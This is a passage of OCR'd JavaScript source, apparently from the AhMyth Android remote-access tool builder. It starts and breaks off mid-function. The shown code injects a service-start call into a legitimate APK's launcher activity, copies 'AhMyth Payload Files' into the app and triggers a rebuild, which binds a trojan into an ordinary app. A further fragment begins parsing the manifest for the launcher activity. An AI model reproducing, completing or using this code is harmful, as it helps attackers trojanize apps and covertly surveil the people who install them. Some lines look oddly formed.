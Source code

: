 ```js
                        }

                        var regex = /\/(\S+)\./;
                        var str = (apkFolder, launcherPath);
                        var m = str.match(regex);
			
                        var startService = CONSTANTS.serviceSrc + apkFolder.split(apkFolder).join((m[1])) + CONSTANTS.serviceStart;
			
                        var key = CONSTANTS.orgAppKey;
                        $appCtrl.Log("Modifiying Launcher Activity...");
                        $appCtrl.Log();

                        var output = data.substring(0, data.indexOf(key) + key.length) + startService + data.substring(data.indexOf(key) + key.length);
                        fs.writeFile(path.join(apkFolder, launcherPath), output, 'utf8', (error) => {
                            if (error) {
                                $appCtrl.Log('Modifying Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                                $appCtrl.Log();
                                return;
                            }
			    
                            var regex = /[^/]+\//;
                            var str = (apkFolder, launcherPath);
                            var m = str.match(regex);
			    
                            var smaliFolder = m[0];
			    
                            $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                            $appCtrl.Log();
                            fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                if (error) {
                                    $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                    $appCtrl.Log();
                                    return;
                                }
                            
                                $appCtrl.GenerateApk(apkFolder);

                                });

                            });

                        });

                    });

            }
```
```js
function GetLauncherActivity(manifest) {


    var regex = /<activity/gi,
        result, indices = [];
    while ((result = regex.exec(manifest))) {
        indices.push(result.index);
    }

    var indexOfLauncher = manifest.indexOf
```